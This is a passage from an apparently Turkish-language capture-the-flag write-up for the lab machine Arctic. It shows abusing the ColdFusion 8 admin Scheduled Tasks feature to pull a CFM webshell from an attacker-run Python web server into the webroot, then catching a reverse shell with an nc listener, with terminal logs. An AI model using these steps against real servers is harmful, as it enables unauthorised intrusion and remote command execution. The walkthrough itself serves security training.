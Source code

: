 Giriş başarılı! Ancak burada dikkat edilmesi gereken bir nokta var.

**Burp** üzerinden trafiği izlediğimde, **login ekranında beklerken** formun yaklaşık **her 30 saniyede bir yenilendiğini** görüyorum. Bu yenileme ile birlikte **yeni bir salt** oluşturuluyor.

Eğer gönderdiğim **hash'in salt değeri**, sunucudaki güncel **salt** ile eşleşmezse, giriş reddediliyor. Bu yüzden **işlemi hızlı bir şekilde yapmam gerekiyor**.

Bunu **otomatikleştirmek** zor değil. **Python** veya **TamperMonkey script'i** ile **daha hızlı yanıt veren bir uygulamada** manuel işlem yapmak yerine süreci otomatize edebilirim.

#### Upload Reverse Shell

Arctic'e bir shell yazmak için [burada](https://nets.ec/Coldfusion_hacking#Writing_Shell_to_File) özetlenen adımları takip edeceğim. İlk olarak Server Settings altında Mappings'e gidin ve CFIDE için C:\ColdFusion8\wwwroot\CFIDE yolunu bulun:

![Pasted image 20250209195420.png](/img/user/Pasted%20image%2020250209195420.png)

Şimdi ana **admin sayfasına** geri dönüp, **Debugging & Logging** > **Scheduled Tasks** kısmına gideceğim:

![Pasted image 20250209195438.png](/img/user/Pasted%20image%2020250209195438.png)

**Schedule New Task**'a tıklayacağım ve aşağıdaki bilgileri vereceğim:

**Task Name:** İstediğim herhangi bir isim  
**URL:** CFM shell almak için kontrol ettiğim URL. Meğerse **Kali**'de **/usr/share/webshells/cfm** dizininde bir **CFM webshell** varmış. Bu dizinde bir **Python webserver** başlattım.  
**Publish:** "Save output to a file" kutusunu işaretleyeceğim.  
**File:** **Mappings** sekmesinden aldığım yolu, shell'in ismini ve `.cfm` uzantısını ekleyeceğim.

![Pasted image 20250209195521.png](/img/user/Pasted%20image%2020250209195521.png)

**Submit**'e tıkladığımda, görev görünüyor ve ardından **yeşil daireli** belgeye tıklayarak **görevi şimdi çalıştırabiliyorum**.

![Pasted image 20250209195541.png](/img/user/Pasted%20image%2020250209195541.png)

Web sunucumda bir bağlantı var:

```
root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [13/May/2020 08:46:34] "GET /cfexec.cfm HTTP/1.1" 200 -
```

Şimdi http://10.10.10.11:8500/CFIDE/ adresini yenilediğimde shell'i görüyorum:

![Pasted image 20250209195612.png](/img/user/Pasted%20image%2020250209195612.png)

#### Execute Shell

.jsp'ye tıklandığında nc listener'ımda bir shell dönüyor:

```
root@kali# rlwrap nc -nvlp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49774.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
arctic\tolis

```
